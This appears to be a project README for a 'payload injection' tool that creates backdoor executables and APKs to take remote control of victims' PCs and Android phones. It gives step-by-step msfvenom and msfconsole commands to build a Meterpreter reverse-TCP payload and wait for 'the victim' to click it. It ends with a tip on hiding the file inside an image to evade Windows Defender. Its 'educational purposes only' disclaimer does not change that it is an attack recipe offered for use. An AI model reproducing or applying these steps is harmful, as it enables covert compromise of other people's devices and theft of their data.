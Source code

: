 # [+]Warning!!
--------------------------------------------------------------------------------------------
Welcome everyone

This tool is for educational purposes only, and our goal is not to make people victims or cause any kind of danger we are not responsible for any damages due to improper use


# [+]About
--------------------------------------------------------------------------------------------
This is a payload creation machine Tool , To make something like back door and so one to completely remote a PC or android phone Just one click on the file "exe, apk" 
and u will be able to open a session and tunnel with your victim’s device with msfcosnsole Have a good time Good bye my friend …


 # [+]How to Download
open you terminal as root " be careful with your path "

git clone https://github.com/Essam0o/Payload-Injection.git


 # [+]How to Run
--------------------------------------------------------------------------------------------
After preparing your payload via Payload-injection tool you can open msfconsole and lunch your paylaod which has been created open your terminal as a root in any path and type

**sudo su**

**msfvenom -p windows/meterpreter/reverse_tcp -f exe lhost = your ip lport = 4444 > FileName .exe**

if you build up a paylaod for android you will change the windows to android and so on 

u can get your ip from terminal type **sudo ifconfig**

Then wait to complete download the file and check your path on your os
  
**msfconsole**

wiat proccess// 


**use exploit/multi/handler**

**set payload windows/meterpreter/reverse_tcp**


**set lhost   enter your ip**

**set lport 4444**

**run**

 HERE WE ARE DONE OF CREATING A VIRUS ALL U NEED TO WAIT THE VICTIM TO CLICK ON THE APK  OR EXE FILE
 
 Tip 
 
 
 you can merge your exe file in a photo to prevent windows defenter detect the virus , or merge it by the way you like it


~Happy Hacking-Good luck
